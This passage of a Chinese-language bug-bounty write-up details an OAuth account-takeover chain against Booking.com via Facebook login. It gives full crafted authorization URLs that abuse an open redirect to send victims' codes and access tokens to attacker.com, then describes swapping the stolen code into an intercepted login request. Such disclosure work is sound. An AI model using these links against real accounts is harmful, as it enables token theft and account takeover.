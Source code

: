 **但是，在重定向中，浏览器仅传递“#”（哈希片段）之后的值。**在查询参数 （？=code=） 中传递的代码未发送到 attacker.com（未显示在重定向到 https://attacker.com/index.php 中）。

通过将响应类型从“代码”更改为“代码，令牌”。Facebook将在**哈希片段**中同时发送代码和令牌。这是一个功能:)

原因是：由于访问令牌是 OAuth 中的超级敏感值，因此使用哈希片段是一种更安全的方法。它不会发送到服务器端，也不会出现在日志中——只有 javascript 代码可以读取它。（有关此详细信息的更多信息，您可以在Google上搜索“OAuth隐式授权”。

##### **流程摘要：**

步骤1：攻击者向受害者发送以下链接：

**https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&amp;scope=email&amp;response_type=代码，令牌&amp;client_id=210068525731476**

第 2 步和第 3 步：受害者点击新链接（响应类型=代码，令牌）后，Facebook **会自动**将用户从安全漏洞 2 重定向到 URL，并在**哈希片段**中带有代码：

**https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ #code=[secret_code]&amp;access_token=[令牌]**

第 4 步和第 5 步：这是具有开放重定向的 URL（状态指向 attacker.com），因此 Booking 会将受害者重定向到：**https://attacker.com/index.php**

第 6 步：浏览器将代码添加到哈希片段中，并将受害者重定向到：

**https://attacker.com/index.php #code=[secret_code]&amp;access_token=[令牌]**

**可选：让我们看看 attacker.com/index.php 的源代码：**

**索引.php** - 读取 url 并将其发送到保存.php的 JavaScript 代码。

**保存.php **- 将输入保存到日志文件。

（我用 sanppify.com 生成了代码）

##### **帐户接管尝试 1**

在这一点上，我们有受害者的代码。我们（作为攻击者）需要启动一个新的登录流程，并将我们的代码替换为受害者代码。我们再次单击“使用 Facebook 登录”并使用我们的帐户登录。

在正常流程中，在Facebook对我们进行身份验证后，它会使用我们的代码将我们重定向到预订：

**https://account.booking.com/social/result/facebook?code={our_code}&amp;state=[large_object]**

**我们拦截此请求。 **我们将代码替换为受害者被盗的代码：

**https://account.booking.com/social/result/facebook?code={victim_code}&amp;state=[large_object]**

Booking.com 应该将代码交换为令牌，并获取受害者的个人资料信息。

什么回来了？等着...

“无效代码”

什么也没发生。我错过了什么？

##### **调试帐户接管失败 – 我们错过了什么？**

从 Facebook 文档中，要与令牌交换代码，后端的 Booking.com 应该使用此 API：
